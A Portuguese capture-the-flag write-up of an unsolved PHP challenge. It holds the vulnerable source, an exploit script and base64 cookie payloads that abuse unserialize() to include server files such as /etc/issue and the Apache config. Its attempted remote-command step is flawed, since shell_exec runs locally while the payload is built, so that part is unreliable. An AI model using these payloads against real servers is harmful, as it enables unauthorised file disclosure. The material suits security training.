# Is this serious

Desafio sem descrição.

**Desafio não resolvido.**

## Assuntos relacionados ao desafio

- Insecure Deserialization
- LFI
- Linux
- PHP
- RCE

## Solução

O desafio disponibiliza um arquivo para download, o [files.zip](files.zip). Ao
descompactar o arquivo zip, é disponibilizado o arquivo `index.php`:

```php
<?php

class ZupCtf {
    public $param;
    public $file;

    public function __construct() {
        $this->init();
    }

    public function init() {
        $this->file = ""; // for __destruct()
        $this->param = $_GET['name']; // for greet()
    }

    public function greet() {
        return "Hello, $this->param!";
    }

    public function __destruct() {
        if (!empty($this->file)) {
            include($this->file);
        }
    }
}

if (empty($_COOKIE['greeting'])) {
    if (empty($_GET['name'])) {
        $_GET['name'] = "Guest";
        $page = new ZupCtf;
        die($page->greet());
    } else {
        $page = new ZupCtf;
        die($page->greet());
    }    
} else {
    // Debug-only purposes
    unserialize(base64_decode($_COOKIE['greeting']));
}

?>
```

Analisando o códido, é possível ver que quando é informado o cookie `greeting`,
entra no else e faz a desserialização do que for passado em Base64 no cookie.
Utilizando esse código como base, é possível criar um exploit para gerar o
cabeçalho da requisição e apenas informar esse cabeçalho no
[Burp Suite][burp-suite]:

```php
// exploit.php

<?php

class ZupCtf {
    public $param;
    public $file;

    public function __construct() {
        $this->init();
    }

    public function init() {
        $this->file = ""; // for __destruct()
        $this->param = $_GET['name']; // for greet()
    }

    public function greet() {
        return "Hello, $this->param!";
    }

    public function __destruct() {
        if (!empty($this->file)) {
            include($this->file);
        }
    }
}

$_GET['name'] = "Guest";
$page = new ZupCtf;
$page->file = '/caminho/para/algum/arquivo';

$b64 = base64_encode(serialize($page));

echo('Cookie: greeting=' . $b64 . "\n\n\n");

?>
```

Abrindo o Burp e acessando a aba "Proxy":



Desabilitando a interceptação das requisições, a gente precisa apenas fazer uma
requisição e usar o log:



Abrindo o navegador:





Utilizando a guia anônima para não ter problema com cache:



Acessei o desafio, fechei o navegador e passei para a aba "HTTP history":



Enviei a requisição para o "Repeater":





Para o primeiro exploit, utilizei o arquivo "/etc/issue", que informa qual a
distribuição Linux utilizada no servidor:

```
$ php exploit.php

Cookie: greeting=Tzo2OiJadXBDdGYiOjI6e3M6NToicGFyYW0iO3M6NToiR3Vlc3QiO3M6NDoiZmlsZSI7czoxMDoiL2V0Yy9pc3N1ZSI7fQ==
```



O servidor é um Alpine Linux 3.10 Beta, procurei qual o caminho da configuração
do Apache no Alpine, pois muda de distribuição para distribuição, o caminho é
/etc/apache2/httpd.conf, utilizado esse caminho no exploit:

```
$ php exploit.php

Cookie: greeting=Tzo2OiJadXBDdGYiOjI6e3M6NToicGFyYW0iO3M6NToiR3Vlc3QiO3M6NDoiZmlsZSI7czoyMzoiL2V0Yy9hcGFjaGUyL2h0dHBkLmNvbmYiO30=
```



Lendo o arquivo de configuração, foi possível encontrar o caminho onde está
instalado a aplicação, está em /app/public. Após isso tentei executar um comando
no servidor (RCE), passando para o atributo "file" do exploit o comando:

```php
$page->file = shell_exec('ls / > /tmp/ls.txt && echo -n /tmp/ls.txt');
```

```
$ php exploit.php 

Cookie: greeting=Tzo2OiJadXBDdGYiOjI6e3M6NToicGFyYW0iO3M6NToiR3Vlc3QiO3M6NDoiZmlsZSI7czoxMToiL3RtcC9scy50eHQiO30=
```



Não retornou o conteúdo do ls, tentei executar outros comandos também, abrir
shell reversa mas não funcionou, acho que o outbound da máquina estava
desabilitado.

[burp-suite]: https://portswigger.net/burp/communitydownload
